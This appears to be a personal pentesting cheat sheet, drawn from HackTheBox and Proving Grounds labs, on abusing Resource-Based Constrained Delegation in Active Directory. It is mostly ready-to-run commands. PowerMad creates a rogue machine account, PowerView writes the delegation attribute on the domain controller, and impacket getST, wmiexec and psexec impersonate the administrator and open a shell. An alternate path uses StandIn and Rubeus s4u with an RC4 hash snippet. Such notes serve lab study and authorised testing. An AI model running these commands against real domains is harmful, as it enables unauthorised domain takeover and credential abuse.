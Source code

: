# Resource Based Constraint Delegation
------------------

Refer - HTB Support by 0xdf

### How to find it?
Using bloodhound 
(Generic All permission)
### How to exploit it?
Import PowerView and PowerMad
Check permissions to create a new computer object on the domain:
```
Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb
```
Check out the property `ms-ds-machineaccountquota`  -> usually 10

Check if the DC is running at least Windows 2012:
```
Get-DomainController
```

Check if the target computer `dc` has the attribute `msds-allowedtoactonbehalfofotheridentity`  not set:
```
Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

Creating a new Computer Object:
After importing PowerMad
```
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Get the SID of the computer:
```
Get-DomainComputer fake01
```

Create new security descriptor for fake01 computer:
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
**Change the SID**

Apply the security descriptor bytes to the target dc machine:
```
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

Using impacket getST python script to get a ticket for the service www as the user administrator:
```bash
python3 /opt/impacket/examples/getST.py support.htb/fake01:123456 -dc-ip 10.129.168.220 -impersonate administrator -spn www/dc.support.htb
```
The ticket will be saved to a CCache file.
https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/

To use the ticket with other impacket scripts export the ticket:
```bash
export KRB5CCNAME=administrator.cache
```

Using wmiexec to get a shell as the administrator:
```bash
python3 /opt/impacket/examples/wmiexec.py
support.htb/administrator@dc.support.htb -no-pass -k
```


-----------


There is another way to do this using Rebeus!

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
https://decoder.cloud/2019/03/20/donkeys-guide-to-resource-based-constrained-delegation-from-standard-user-to-da/
https://www.onsecurity.io/blog/abusing-kerberos-from-linux/
http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html

------------------

## Using StandIn & Rubeus

PGP - Resourced

- Create a new computer account using StandIn
```
.\StandIn.exe --computer cbbn --make
```
note down the password.
- Get the SID of the machine we just created.
- Set msds allowed to bnlah blah
```
.\standin.exe --computer ResourceDC --sid SID
```

- Use Rubeus to impersonate the Administrator on the machine to get the ticket
- Rubeus requires the RC4 hash of the password:
```python
import hashlib,binascii
hash = hashlib.new('md4', "passw0rd123".encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```

```
.\Rubeus.exe s4u /user:cbbn /rc4:HASH /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local nowrap /ptt
```
- Now the ticket is successfully imported.
- Copy over the ticket locally and crack it to use it locally 
- Decode the base64 ticket to `.kirbi`
- Convert it to a ccache file using impacket:
```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
```

```bash
export KRB5CCNAME=ticket.ccache
```

- Use psexec to log in as administrator
```bash
psexec -k -no-pass 
```

-----------
